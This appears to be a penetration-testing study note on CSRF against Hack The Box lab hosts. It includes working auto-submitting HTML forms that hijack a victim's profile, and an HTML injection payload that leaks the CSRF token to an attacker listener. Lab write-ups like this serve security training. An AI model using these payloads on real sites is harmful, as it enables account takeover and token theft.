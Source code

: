 # 🪢 Session Attacks CSRF

## CSRF or XSRF

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated.

There is a attacker-crafted web page that the victim must visit or interact with

A web application is vulnerable to CSRF attacks when:

* All the parameters required for the targeted request can be determined or guessed by the attacker
* The application's session management is solely based on HTTP cookies, which are automatically included in browser requests

To successfully exploit a CSRF vulnerability, we need:

* To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
* The victim to be logged into the application at the time when the malicious cross-site request is issued

Let's create an account to look at functionalities and launch burp

Now let's save our users informations in web app, we should see this in burp:

<figure><img src="../../../.gitbook/assets/image (1371).png" alt=""><figcaption></figcaption></figure>

Here is some malicious webpage we can craft:

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

We crafted it based on ->

<figure><img src="../../../.gitbook/assets/image (1372).png" alt=""><figcaption></figcaption></figure>

We can host it with a python webserver&#x20;

If we go to `http://<VPN/TUN Adapter IP>:1337/notmalicious.html` while still logged in, the profile details will change to the ones we specified in the HTML page we are serving:

<figure><img src="../../../.gitbook/assets/image (1373).png" alt=""><figcaption></figcaption></figure>

## GET-based

Let's create an account to check for functionalities, if we enter informations and click save, we see this:

<figure><img src="../../../.gitbook/assets/image (1374).png" alt=""><figcaption></figcaption></figure>

and in burp

<figure><img src="../../../.gitbook/assets/image (1375).png" alt=""><figcaption><p>The CSRF token is included in the GET request.</p></figcaption></figure>

Let's create a webpage:

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

{% hint style="info" %}
CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.
{% endhint %}

If we are still connected to our account and visit the page we host, our profile details will change:

<figure><img src="../../../.gitbook/assets/image (1376).png" alt=""><figcaption></figcaption></figure>

## POST-based

On our freshly created account we can see a delete button

If we Click on the "Delete" button. we will get redirected to `/app/delete/<your-email>`

<figure><img src="../../../.gitbook/assets/image (1377).png" alt=""><figcaption><p>email is reflected on the page</p></figcaption></figure>

Let's try inputting HTML:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

<figure><img src="../../../.gitbook/assets/image (1378).png" alt=""><figcaption></figcaption></figure>

Let's try listening on port 8000 with netcat and sending the payload to our victim:

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

So if our target visits `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

<figure><img src="../../../.gitbook/assets/image (1379).png" alt=""><figcaption></figcaption></figure>
